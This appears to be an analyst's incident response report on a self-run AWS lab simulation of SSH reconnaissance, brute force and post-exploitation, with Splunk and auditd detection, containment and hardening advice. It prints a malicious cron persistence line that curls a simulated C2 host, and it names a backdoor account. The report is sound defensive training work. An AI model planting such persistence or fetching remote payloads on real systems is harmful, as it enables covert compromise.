



# Project 07 - Incident Response Report


---

# INCIDENT RESPONSE REPORT

**Report Reference:** IR-2026-001
**Classification:** Confidential
**Date:** 09 May 2026
**Analyst:** Sizwe Marole
**Severity:** High

---

## 1. Executive Summary

On 09 May 2026, a coordinated attack was detected against a Ubuntu 24.04 server hosted on AWS EC2 in the Africa Cape Town (af-south-1) region. The attack sequence began with active network reconnaissance using Nmap, followed by an SSH brute force attack using Hydra that generated 36 failed authentication attempts from a single external IP address (197.185.162.135) within a 15-minute window. Post-exploitation activity including backdoor user creation and cron-based persistence was also simulated and detected.

All activity was detected in Splunk Enterprise 10.2.0. No data was exfiltrated and no legitimate user accounts were compromised during this exercise. The incident has been fully contained.

---

## 2. Incident Timeline

| Time (SAST) | Event |
|-------------|-------|
| 09/05/2026 14:43 | Nmap reconnaissance scan initiated from attacker IP |
| 09/05/2026 14:44 | Splunk begins logging elevated auth.log activity |
| 09/05/2026 14:46 | Hydra SSH brute force begins - peak of 12 failed logins/minute |
| 09/05/2026 14:49 | Brute force activity subsides (36 total failed attempts) |
| 09/05/2026 15:24 | Brute force SPL query run - 36 events from 197.185.162.135 confirmed |
| 09/05/2026 15:39 | Alert saved in Splunk as "brute force" - real-time, every hour |
| 09/05/2026 17:26 | Post-exploitation simulation: useradd hacker123, cron persistence added |
| 09/05/2026 17:36 | auditd logs confirm persistence and user_modification events |
| 09/05/2026 17:39 | Splunk detection query confirms all three event types captured |

---

## 3. Affected Systems

| System | Role | IP Address | Status |
|--------|------|-----------|--------|
| ip-172-31-3-95 | Victim / target | 13.246.220.248 | Monitored, no breach |
| 15.240.43.62 | Splunk SIEM | 15.240.43.62:8000 | Operational |

---

## 4. Attack Analysis

### Phase 1 - Reconnaissance (T1046)

The attacker performed an Nmap SYN and service version scan against the victim's public IP. This scan probed all default ports and returned service information for open ports. The scan completed in under 30 seconds.

**Evidence:**
- tcpdump capture shows sequential SYN packets from attacker IP to victim on ports 1-1000+
- Peak packet rate of approximately 500 packets/second during the scan window
- Port 22 (SSH) identified as open

### Phase 2 - Credential Access via Brute Force (T1110.001)

Following reconnaissance, the attacker launched a Hydra SSH brute force attack targeting the ubuntu user account on port 22. Hydra used a wordlist to attempt credential combinations at a rate of approximately 3-4 attempts per second.

**Evidence from Splunk:**

```spl
index=* source="/var/log/auth.log" "Failed password"
| rex "from (?P<src_ip>\d+\.\d+\.\d+\.\d+)"
| stats count by src_ip
| sort -count
```

**Results:**
| src_ip | count |
|--------|-------|
| 197.185.162.135 | 36 |

The attack did not succeed. No `Accepted password` or `Accepted publickey` events were found from the attacker IP.

### Phase 3 - Persistence via Cron (T1053.003)

A malicious cron job was added to the victim's crontab to simulate an attacker establishing persistence:

```
* * * * * /usr/bin/curl http://192.168.1.100/backdoor
```

This would cause the victim to make an outbound HTTP request to a simulated C2 server every minute.

**Evidence from auditd:**
auditd captured the crontab modification with key="persistence".

### Phase 4 - Account Creation (T1136.001)

A backdoor user account named `hacker123` was created on the victim system to simulate an attacker maintaining access through a secondary account.

**Evidence from auditd:**
auditd captured the useradd execution with key="user_modification".

---

## 5. Indicators of Compromise

### Network IOCs

| Type | Value | Confidence |
|------|-------|-----------|
| IP Address | 197.185.162.135 | High - confirmed attacker source |
| IP Address | 192.168.1.100 | High - simulated C2 server |

### Host IOCs

| Type | Value | Confidence |
|------|-------|-----------|
| Cron entry | `* * * * * /usr/bin/curl http://192.168.1.100/backdoor` | High |
| User account | hacker123 | High |
| Process | /usr/bin/curl (scheduled via cron) | High |

---

## 6. Detection Coverage

| Phase | Technique | ID | Detected By | Time to Detect |
|-------|-----------|-----|------------|----------------|
| Reconnaissance | Network Service Scanning | T1046 | tcpdump PCAP | Real-time |
| Credential Access | Brute Force | T1110.001 | Splunk auth.log query | Under 15 min |
| Persistence | Cron Job | T1053.003 | auditd + Splunk | Real-time |
| Account Creation | Create Local Account | T1136.001 | auditd + Splunk | Real-time |

---

## 7. Containment Actions

1. Blocked source IP 197.185.162.135 at the AWS Security Group level.
2. Removed the malicious cron entry from the victim's crontab.
3. Disabled and deleted the hacker123 user account.
4. Verified no successful authentication occurred from the attacker IP.
5. Saved brute force detection as a Splunk real-time alert.

---

## 8. Root Cause Analysis

The primary enablers of this attack were:

1. **SSH exposed to the internet on port 22.** Any public IP scan will find it within minutes. Mitigation: restrict SSH access to specific IP ranges via security group rules, or use AWS Systems Manager Session Manager instead.

2. **Password-based SSH authentication enabled.** The victim accepted password authentication, making brute force attacks possible. Mitigation: disable password authentication entirely and require SSH key pairs only.

3. **No rate limiting on SSH.** The SSH daemon accepted rapid sequential connection attempts without delay. Mitigation: install and configure fail2ban to automatically block IPs after a configurable number of failed attempts.

---

## 9. Recommendations

### Immediate (Within 24 Hours)

- [ ] Restrict SSH access in the security group to known IP ranges only
- [ ] Disable SSH password authentication in /etc/ssh/sshd_config: `PasswordAuthentication no`
- [ ] Install and configure fail2ban: `sudo apt install fail2ban`
- [ ] Enable AWS VPC Flow Logs for the victim VPC for permanent network visibility

### Short Term (Within 1 Week)

- [ ] Enable AWS CloudTrail for API-level audit logging
- [ ] Configure Splunk to alert on any new cron entries being created
- [ ] Add a Splunk lookup table of known-bad IPs from threat intelligence feeds
- [ ] Enable Multi-Factor Authentication on the AWS account

### Long Term

- [ ] Evaluate moving SSH access behind AWS Systems Manager Session Manager to eliminate the need for port 22 to be internet-facing
- [ ] Deploy a HIDS (Host-based Intrusion Detection System) such as OSSEC or Wazuh alongside auditd
- [ ] Implement automated response playbooks in Splunk SOAR to block attacker IPs automatically when the brute force alert fires

---

## 10. Lessons Learned

- The Splunk Universal Forwarder delivered auth.log events to the SIEM within seconds of them being generated. Real-time detection was possible from the moment the attack started.
- auditd is an extremely powerful kernel-level auditing tool. When properly configured, it catches persistence and privilege escalation techniques that would be invisible to application-layer logging alone.
- The attack phases map cleanly to the MITRE ATT&CK framework, which makes it straightforward to communicate the attack narrative to both technical teams and management.
- In a real environment, fail2ban would have automatically blocked the attacker IP after the first 5-10 failed attempts, stopping the brute force before it reached 36 attempts.

---

## 10. Screenshots - Evidence Summary

### 1. Splunk Attack Timeline - Failed Login Distribution by Time Bucket

The statistics table shows exactly when the brute force attack occurred: 9 failed logins at 15:20, then 27 at 15:25 - a total of 36 events. The burst pattern confirms an automated tool, not manual login attempts. This table is the primary evidence used to establish the attack timeline in Section 2 of this report.



---

### 2. AWS Security Group - SSH Access Restricted (Containment Action)

The AWS security group inbound rules being configured to restrict SSH access. This is the primary containment action taken after the incident: replacing the wide-open port 22 rule with a source-restricted rule that only allows SSH from authorised IP ranges.



---

### 3. Splunk Universal Forwarder Confirmed Running

The Splunk Universal Forwarder confirmed active on the victim machine and successfully forwarding logs to the Splunk indexer. This screenshot demonstrates that the monitoring infrastructure was in place before, during, and after the attack - validating the detection capability.



---

## 11. Analyst Notes

This incident was conducted as a controlled simulation within my personal AWS lab environment. All attack actions were performed by me against infrastructure I own and control. No real systems or third parties were affected.

The purpose of this exercise was to build and validate a full detection and response capability, and to produce a realistic IR report that demonstrates the end-to-end analyst workflow.

**Analyst:** Sizwe Marole
**Contact:** marolesizwe1@gmail.com
**Date Completed:** 09 May 2026
